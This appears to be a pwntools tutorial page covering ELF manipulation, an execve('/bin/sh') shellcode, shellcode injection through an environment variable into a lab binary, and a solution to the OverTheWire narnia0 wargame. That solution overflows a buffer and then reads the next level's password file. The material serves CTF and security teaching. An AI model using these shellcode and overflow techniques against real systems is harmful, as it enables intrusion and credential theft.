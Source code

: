# pwntools - CTF toolkit

From [1]:
> Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

The following tutorials builds from [4]:

### Assembly and ELF manipulation

For a simple code like:
```C
#include <stdio.h>

int main(int argc, char* argv[])
{
	char flag[10] = {'S', 'E', 'C', 'R', 'E', 'T', 'F', 'L', 'A', 'G'};
	char digits[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
	int index = 0;

	while (1) {
		printf("Give me an index and I'll tell you what's there!\n");
		scanf("%d", &index);
		printf("Okay, here you go: %p %c\n", &digits[index], digits[index]);
	}
	return 0;
}
```

We compile it:
```bash
root@8beb97f8d305:/tutorial/tutorial6# gcc -o leaky leaky.c
```

and run the following Python script:
```Python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

Delivering:
```
root@8beb97f8d305:/tutorial/tutorial6# python example1.py
[*] '/tutorial/tutorial6/leaky'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Main at: 0x4005d6
[*]    0:   55                      push   ebp
       1:   48                      dec    eax
       2:   89 e5                   mov    ebp,esp
       4:   48                      dec    eax
       5:   83 ec 50                sub    esp,0x50
       8:   89 7d bc                mov    DWORD PTR [ebp-0x44],edi
       b:   48                      dec    eax
       c:   89                      .byte 0x89
       d:   75                      .byte 0x75
```

### Shellcode from assembly
Available in `example6.py`. Shortly:
```Python
#!/usr/bin/env python
from pwn import *

# Define the context of the working machine
context(arch='i386', os='linux')

# Get a simple shellcode
log.info("Putting together simple shellcode")

sh_shellcode2 = """
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f
        mov ebx, esp
        /* push argument array ['sh\x00'] */
        /* push 'sh\x00\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016972
        xor ecx, ecx
        push ecx /* null terminate */
        push 4
        pop ecx
        add ecx, esp
        push ecx /* 'sh\x00' */
        mov ecx, esp
        xor edx, edx
        /* call execve() */
        push SYS_execve /* 0xb */
        pop eax
        int 0x80
"""
# Create a binary out of some shellcode
e = ELF.from_assembly(sh_shellcode2, vma=0x400000, arch='i386')
```

### Shellcraft
Only managed to make it work for 32-bit binaries. Refer to `example4.py` for a working example with 32-bits and to `example5.py` for a non-working example with 64-bits.

```
docker run -v /Users/victor/basic_cybersecurity:/tutorial -it pwnbox:latest
...
root@ffac9df3ac02:/tutorial/tutorial6# python example4.py
[*] Compiling the binary narnia1_local
narnia1.c: In function 'main':
narnia1.c:21:5: warning: implicit declaration of function 'getenv' [-Wimplicit-function-declaration]
  if(getenv("EGG")==NULL){    
     ^
narnia1.c:21:18: warning: comparison between pointer and integer
  if(getenv("EGG")==NULL){    
                  ^
narnia1.c:23:3: warning: implicit declaration of function 'exit' [-Wimplicit-function-declaration]
   exit(1);
   ^
narnia1.c:23:3: warning: incompatible implicit declaration of built-in function 'exit'
narnia1.c:23:3: note: include '<stdlib.h>' or provide a declaration of 'exit'
narnia1.c:27:6: warning: assignment makes pointer from integer without a cast [-Wint-conversion]
  ret = getenv("EGG");
      ^
[*] Putting together simple shellcode
jhh///sh/bin\x89?h\x814$ri1?Qj\x04Y?Q??1?j\x0bX̀
[*] Introduce shellcode in EGG env. variable
[*] Launching narnia1_local
[!] Could not find executable 'narnia1_local' in $PATH, using './narnia1_local' instead
[+] Starting local process './narnia1_local': pid 38
[*] Switching to interactive mode
Trying to execute EGG!
$ uname -a
Linux ffac9df3ac02 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Issue raised at https://github.com/Gallopsled/pwntools/issues/1142.

### GDB integration

Issue with the terminal fixed at https://github.com/Gallopsled/pwntools/issues/1140.

New issue at https://github.com/Gallopsled/pwntools/issues/1117.

### Examples
#### narnia1
As an example, provided the following problem http://overthewire.org/wargames/narnia/narnia1.html:

```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

### Resources
- [1] Gallopsled, *pwntools*. Retrieved from https://github.com/Gallopsled/pwntools.
- [2] Gallopsled, *pwntools Docs*. Retrieved from https://docs.pwntools.com/en/stable/index.html.
- [3] Exploit Database. Retrieved from https://www.exploit-db.com/.
- [4] University Politehnica of Bucharest, Computer Science and Engineering Department, Computer and Network Security. *Lab 07 - Exploiting. Shellcodes (Part 2)*. Retrieved from https://ocw.cs.pub.ro/courses/cns/labs/lab-07.
